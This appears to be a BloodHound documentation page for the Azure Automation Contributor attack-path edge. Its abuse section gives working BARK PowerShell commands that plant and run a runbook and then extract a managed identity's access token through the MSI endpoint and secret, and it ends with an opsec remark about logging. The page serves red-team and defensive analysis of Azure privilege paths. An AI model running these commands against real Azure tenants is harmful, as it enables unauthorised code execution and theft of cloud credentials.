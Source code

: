 ---
title: AZAutomationContributor
---

<Frame>
  <img src="/hc/images/image-2-1.png"/>
</Frame>

The Azure Automation Contributor role grants full control of the target Azure Automation Account. This includes the ability to execute arbitrary commands on the Automation Account.

## Abuse Info

You can use BARK’s New-AzureAutomationAccountRunBook and Get-AzureAutomationAccountRunBookOutput functions to execute arbitrary commands against the target Automation Account.

These functions require you to supply an Azure Resource Manager scoped JWT associated with the principal that has the privilege to add or modify and run Automation Account run books. There are several ways to acquire a JWT. For example, you may use BARK’s Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT by supplying a refresh token:

```bash
$ARMToken = Get-ARMTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```

Now you can use BARK’s New-AzureAutomationAccountRunBook function to add a new runbook to the target Automation Account, specifying a command to execute using the -Script parameter:

```bash
New-AzureAutomationAccountRunBook `
    -Token $ARMToken `
    -RunBookName "MyCoolRunBook" `
    -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount" `
    -Script "whoami"
```
After adding the new runbook, you must execute it and fetch its output. You can do this automatically with BARK’s Get-AzureAutomationAccountRunBookOutput function:

```bash
Get-AzureAutomationAccountRunBookOutput `
    -Token $ARMToken `
    -RunBookName "MyCoolRunBook" `
    -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount"
```
If the Automation Account has a managed identity assignment, you can use these two functions to retrieve a JWT for the service principal like this:

```bash
$Script = $tokenAuthURI = $env:MSI_ENDPOINT + "?resource=https://graph.microsoft.com/&api-version=2017-09-01"; $tokenResponse = Invoke-RestMethod -Method Get -Headers @{"Secret"="$env:MSI_SECRET"} -Uri $tokenAuthURI; $tokenResponse.access_token
New-AzureAutomationAccountRunBook -Token $ARMToken -RunBookName "MyCoolRunBook" -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount" -Script $Script
Get-AzureAutomationAccountRunBookOutput -Token $ARMToken -RunBookName "MyCoolRunBook" -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount"
```
If successful, the output will include a JWT for the managed identity service principal.

## Opsec Considerations

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

## References
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
* [https://posts.specterops.io/managed-identity-attack-paths-part-1-automation-accounts-82667d17187a](https://posts.specterops.io/managed-identity-attack-paths-part-1-automation-accounts-82667d17187a)
